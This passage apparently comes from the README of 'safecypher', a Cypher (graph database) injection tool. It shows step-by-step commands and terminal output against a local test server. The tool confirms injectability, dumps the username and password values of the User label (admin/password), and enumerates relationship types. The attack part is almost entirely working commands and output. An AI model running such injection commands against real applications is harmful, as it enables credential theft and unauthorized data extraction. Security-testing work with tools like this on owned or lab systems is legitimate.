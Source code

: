 	[*] target likely injectable, continuing
	[+] working character: [']
	
	[*] Label: User
	[+] available properties [2]:
	[++] password
	[++] username
	```


3. Dump values in relation to label and properties
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User -P username,password -t 2
	
	[*] target likely injectable, continuing
	[+] working character: [']
	
	[*] Label: User
	[+] available properties [2]:
	[++] username [1]:
	[+++] admin
	[++] password [1]:
	[+++] password
	
	[*] Label: User
	[+] available properties [2]:
	[++] username
	[++] password
	+------+------------+------------+
	|   ID | username   | password   |
	+======+============+============+
	|    0 | admin      | password   |
	+------+------------+------------+
	```

4. Dump relationships
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --relationship -t 2
	
	[*] exfiltrating relationships
	
	[*] relationships types [8]:
	[+] FAMILY
	[+] PARTNER
	[+] ENEMY
	[+] FRIEND
	[+] WORKS_FOR
	[+] OWNS
	[+] VISITS
	[+] LAWYER_FOR
	